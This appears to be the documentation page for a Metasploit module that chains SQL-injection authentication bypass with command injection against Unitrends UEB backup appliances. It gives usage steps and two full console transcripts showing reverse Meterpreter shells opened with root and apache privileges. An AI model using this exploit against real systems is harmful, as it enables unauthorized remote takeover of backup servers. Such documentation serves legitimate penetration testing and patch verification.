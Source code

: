 ## Vulnerable Application

This exploit leverages a sqli vulnerability for authentication bypass,
together with command injection for subsequent RCE.

This exploit has two targets:

  1. Unitrends UEB 9 http api/storage RCE for root privileges
  2. Unitrends UEB < 10.1.0 api/hosts RCE for user (apache) privileges

## Verification Steps

  1. ```use exploit/linux/http/ueb_api_rce```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```set target [#]```
  5. ```exploit```
  6. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.2 on CentOS 6.5 Using api/storage (target 0) root exploit

```
msf > use exploit/linux/http/ueb_api_rce 
msf exploit(linux/http/ueb_api_rce) > set target 0
target => 0
msf exploit(linux/http/ueb_api_rce) > set rhost 1.1.1.1
rhost => 1.1.1.1
msf exploit(linux/http/ueb_api_rce) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf exploit(linux/http/ueb_api_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:443 - Sending requests to UEB...
[*] Command Stager progress -  19.76% done (164/830 bytes)
[*] Command Stager progress -  39.16% done (325/830 bytes)
[*] Command Stager progress -  56.87% done (472/830 bytes)
[*] Command Stager progress -  74.82% done (621/830 bytes)
[*] Command Stager progress -  92.77% done (770/830 bytes)
[*] Command Stager progress - 110.48% done (917/830 bytes)
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Command Stager progress - 126.63% done (1051/830 bytes)
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43600) at 2018-09-10 20:51:16 -0400

meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Red Hat 6.5 (Linux 2.6.32-573.26.1.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### UEB 9.2 on CentOS 6.5 Using api/hosts (target 1) exploit

```
msf > use exploit/linux/http/ueb_api_rce 
msf exploit(linux/http/ueb_api_rce) > set target 1
target => 1
msf exploit(linux/http/ueb_api_rce) > set rhost 1.1.1.1
rhost => 1.1.1.1
msf exploit(linux/http/ueb_api_rce) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf exploit(linux/http/ueb_api_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:443 - Sending requests to UEB...
[*] Command Stager progress -  19.76% done (164/830 bytes)
[*] Command Stager progress -  39.16% done (325/830 bytes)
[*] Command Stager progress -  56.87% done (472/830 bytes)
[*] Command Stager progress -  74.82% done (621/830 bytes)
[*] Command Stager progress -  92.77% done (770/830 bytes)
[*] Command Stager progress - 110.48% done (917/830 bytes)
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43515) at 2018-09-10 20:46:24 -0400
[*] Command Stager progress - 126.63% done (1051/830 bytes)

meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Red Hat 6.5 (Linux 2.6.32-573.26.1.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter > shell
Process 25534 created.
Channel 1 created.
whoami
apache
```
